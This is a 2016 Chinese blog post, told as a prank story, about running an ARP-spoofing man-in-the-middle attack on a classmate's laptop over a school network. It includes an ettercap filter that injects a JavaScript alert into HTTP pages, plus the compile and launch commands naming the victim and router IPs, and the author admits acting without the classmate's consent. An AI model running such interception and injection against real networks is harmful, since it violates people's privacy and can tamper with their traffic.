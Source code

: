 ```yaml
---
layout: post
title: 记一次非针对LGC的中间人攻击
excerpt: 真的是非针对哦(¬_¬)
date:   2016-09-13
tag:
  - hack
---
```


## 序
自从昨天9月12日停电以后，历二信竞队教室原本70Mbs的网络，莫名其妙的降到了10Mbs不到……网页大规模卡崩，ping baidu.com丢包严重。这对于历二信竞队来讲，简直就是一场灾难……  
  这差不多算是没了网，奥赛室一片死寂。Gengxin抬头望去，LGC居然还在看视频！！！  
  他在看视频！  
  在看视频！  
  看视频！  
  视频！  
  频！  
  ！  
这个就有点尴尬了……既然全教室的网这么慢，你还在看视频!Gengxin有点小愤怒。打开路由器管理界面，嗯……流量全在LGC那。很久以前就发现，LGC的小笔记本网卡似乎比我们的更好一点，在很远的地方也能收到wifi信号，并且……还是接近满格！如果让流量先经过Gengxin的渣渣网卡呢？\\(¬\_¬\)于是Gengxin默默的打开了自己的Kali虚拟机。  

## One
首先科普一下，什么是中间人攻击。  
中间人攻击（Man-in-the-middle attack，缩写：MITM）是指攻击者与通讯的两端分别创建独立的联系，并交换其所收到的数据，使通讯的两端认为他们正在通过一个私密的连接与对方直接对话，但事实上整个会话都被攻击者完全控制。（以上引自[维基百科](https://zh.wikipedia.org/wiki/%E4%B8%AD%E9%97%B4%E4%BA%BA%E6%94%BB%E5%87%BB)）。简单的说，就是LGC电脑的流量都会流经Gengxin的电脑，而路由器和LGC的电脑都会傻傻的以为自己正在安全的连接对方。  
这里，Gengxin用了一个非常有名的多用途嗅探器——ettercap。其实如果不用这个工具的话，攻击的过程也十分简单，可以用一个Python脚本轻松实现——scapy库查看编辑数据包是十分方便的。  

## Two  

Kali系统下ettercap是预置的，所以我不需要额外的安装。
<figure>
  <a href="http://images2015.cnblogs.com/blog/831801/201609/831801-20160913211455070-1683114145.jpg"><img src="http://images2015.cnblogs.com/blog/831801/201609/831801-20160913211455070-1683114145.jpg"></a>
</figure>
好的，既然LGC在浏览网页，那就来个HTML注入好了。“Gengxin 想 ban 你 哦”。  
我们首先要写一个过滤脚本。  

{% highlight cpp %}
if (ip.proto == TCP && tcp.dst == 80)
{
    if (search(DATA.data, "Accept-Encoding"))
    {
        replace("Accept-Encoding", "Gengxin-NoEncoding");
        msg("就是不让你压缩Q'W'Q\n");
    }
}
if (ip.proto == TCP && tcp.src == 80)
{
    replace("<head>", "<head><script type="text/javascript">alert('Gengxin想ban你哦QWQ');</script>");
    replace("<HEAD>", "<HEAD><script type="text/javascript">alert('Gengxin想ban你哦QWQ')');</script>");
    msg("成功注入Q'W'Q!!\n");
}  
{% endhighlight %}


这段代码第一个if块，是如果网页源码中有Accept-Encoding的时候，替换掉它（Accept-Encoding是声明浏览器支持的编码类型，在这里可以理解为请求压缩的意思）。第二个if块就是我们插入HTML的地方了。js代码里`alert("")`会使网页出现一个弹窗。这就是我要达到的目的。  

OK，把这段代码保存为`banLGC.filter`.   

接下来，编译我们刚刚的banLGC.filter脚本。代码如下：

~~~
etterfilter banLGC.filter -o banLGC.ef
~~~

接着，我们在路由器后台找到LGC的IP地址，然后用我们刚刚编译好的脚本，发起对LGC的中间人攻击

~~~
ettercap -i eth0 -Tq -M arp:remote /192.168.31.106// /192.168.31.1// -F banLGC.ef
~~~

然后在Gengxin的电脑上，成功的打印出了`成功注入Q'W'Q!!`

<figure>
  <a href="http://images2015.cnblogs.com/blog/831801/201609/831801-20160919114624871-1977932968.jpg"><img src="http://images2015.cnblogs.com/blog/831801/201609/831801-20160919114624871-1977932968.jpg"></a>
</figure>

猛然间，不远处的LGC发出了杠铃般的笑声————Gengxin！你要做什么！我网速是怎么了！！   

然后基友就一上午没有理我Q'A'Q  

最后Gengxin还是跟他又说明了情况，然后道了歉  

然后就没有然后了  
